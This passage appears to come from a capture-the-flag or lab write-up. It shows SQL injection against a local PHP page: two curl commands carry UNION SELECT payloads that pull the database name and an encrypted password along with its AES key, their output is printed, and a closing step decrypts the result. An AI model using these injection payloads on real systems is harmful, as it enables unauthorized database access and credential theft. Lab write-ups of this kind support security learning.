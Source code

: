 Get the database name.
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+union+select+database()--+-&table=passwords"
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(5) "bread"
  }
}
```

Already know the table name from url parameter: `table=passwords`
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+union+select+password+FROM+bread.passwords--+-&table=passwords"
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(44) "H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw="
  }
}
```

get the key and encrypted password. Decrypt with cyberchef

